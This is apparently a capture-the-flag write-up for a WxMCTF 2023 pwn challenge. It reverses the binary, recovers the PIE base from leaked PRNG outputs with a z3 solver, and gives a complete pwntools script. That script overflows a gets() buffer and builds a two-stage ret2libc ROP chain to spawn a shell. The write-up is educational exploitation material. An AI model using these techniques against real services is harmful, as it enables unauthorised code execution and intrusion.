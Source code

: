 # Toady's Anger Challenge

> Welcome to professor Toady's math class!
> 
> Today, we've got a special guest, who has created a program to guesstimate your course's mark!
>
> nc toady.nyiyui.ca 2002

## RE-ing the binary

As we can see, the program starts off by saving the upper and lower 32 bits of the address of `menu()` into global variables `a` and `b` respectively.

```c
uint32_t a = 0;
uint32_t b = 0;

int main()
{
  uint64_t ptr;

  // unbuffer our input
  setvbuf(stdin, 0, 2, 0);
  setvbuf(_bss_start, 0, 2, 0);

  ptr = menu;
  a = v3 >> 32;     // a is the upper 32 bits of menu address
  b = v3;           // b is the lower 32 bits of menu address
  return menu();
}
```

Looking into menu,

```c
int menu()
{
  unsigned int next_guess_1;
  unsigned int next_guess_2;
  int result;
  unsigned int opt;
  char buf[32];

  for ( opt = 0; opt != 4; result = opt )
  {
    puts("THE MARK MACHINE");
    printf("1. Guesstimate your mark\n2. Get your student number\n3. Enter Feedback\n4. Exit\nEnter here: ");
    scanf("%i", &opt);
    if ( opt == 1 )
    {
      next_guess_1 = next();
      printf("Your mark is: %i\n", next_guess_1 % 0x31);
    }
    if ( opt == 2 )
    {
      next_guess_2 = next();
      printf("Your student number is: %08x\n", next_guess_2);
    }
    if ( opt == 3 )
    {
      puts("We totally value your feedback!\nPlease enter it here for our great team of shredders to attend to it!");
      getchar();
      gets(buf);
    }
  }
  return result;
}
```

we can see that there is an obvious buffer overflow in option 3 of the menu.

However, if we look at the security of the binary,

```
[*] '/WxMCTF 2023/pwn/Toady Anger Challenge/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We see that PIE is enabled, leaving us with nothing much to exploit despite our buffer overflow.

## Solving the Crypto

If we then look into the `next()` function,

```
uint64_t next()
{
  a ^= 14 * a;
  a ^= b;
  b = 62555385 * b + 17;
  return (unsigned int)a;
}
```

We see that it actually return numbers based off the address of `menu()` which was the initial values of `a` and `b`.

Thus when we use option 1 and 2, we can see the numbers returned as some form of PIE leak, and we simply have to do some calculations to find the initial address of `menu` and defeat PIE, allowing us to easily exploit our buffer overflow and get a shell.

Being the lazy person that I am, the address to `menu()` can be recovered by simply running the `next()` function X number of times and throwing it into a **SAT solver** (z3) to recover the original address of `menu()`.

```python
from pwn import *
import z3

p = process("./vuln")

s = z3.Solver()
a = z3.BitVec('a', 32)
b = z3.BitVec('b', 32)
orig_a, orig_b = (a, b)

for i in range(5):
    p.sendlineafter(b"here: ", b"2")
    p.recvuntil(b"number is: ")
    leak = int(p.recvline().strip(), 16)
    a ^= 14 * a;
    a ^= b;
    b = 62555385 * b + 17
    s.add(a == leak)

s.check()
m = s.model()
a = m[orig_a].as_long()
b = m[orig_b].as_long()
menu = (a << 32) | b

log.success(f"addr of menu @ {hex(menu)}")

p.interactive()

"""
OUTPUT:

[x] Starting local process './vuln'
[+] Starting local process './vuln': pid 3597
[+] addr of menu @ 0x5580f079c239
THE MARK MACHINE
1. Guesstimate your mark
2. Get your student number
3. Enter Feedback
4. Exit
Enter here:
"""
```


## Solving the PWN

Now that we have defeated PIE, the remainder of the exploit is trivial. It is a simple `ret2libc` to call `system('/bin/sh')`. Remember to patch the binary with the given LIBC and LD _(which you have to source yourself or use pwninit to fetch)_, either via `pwninit` or `patchelf`.

The solve script is self-explanatory

```python
from pwn import *
import z3

context.binary = elf = ELF("./vuln")
libc = ELF("./libc-2.31.so")
p = process("./vuln")

s = z3.Solver()
a = z3.BitVec('a', 32)
b = z3.BitVec('b', 32)
orig_a, orig_b = (a, b)

for i in range(5):
    p.sendlineafter(b"here: ", b"2")
    p.recvuntil(b"number is: ")
    leak = int(p.recvline().strip(), 16)
    a ^= 14 * a
    a ^= b
    b = 62555385 * b + 17
    s.add(a == leak)

s.check()
m = s.model()
a = m[orig_a].as_long()
b = m[orig_b].as_long()
menu = (a << 32) | b

elf.address = menu - elf.sym.main + 230

log.success(f"addr of menu @ {hex(menu)}")
log.success(f"addr of elf @ {hex(elf.address)}")

# stage 1 payload: leak LIBC address
r = ROP(elf)
r.puts(elf.got.puts)
r.main()

p.sendlineafter(b"here: ", b"3")
p.sendline(b"A" * 0x28 + r.chain())
p.sendlineafter(b"here: ", b"4")

libc_leak = unpack(p.recvline().strip(b'\n'), 'all')
libc.address = libc_leak - libc.sym.puts

log.success(f"addr of puts @ {hex(libc_leak)}")
log.success(f"addr of libc @ {hex(libc.address)}")

# stage 2 payload: call system('/bin/sh')
r = ROP(libc)
r.call(r.ret)
r.system(next(libc.search(b'/bin/sh')))

p.sendlineafter(b"here: ", b"3")
p.sendline(b"A" * 0x28 + r.chain())
p.sendlineafter(b"here: ", b"4")

p.interactive()
```

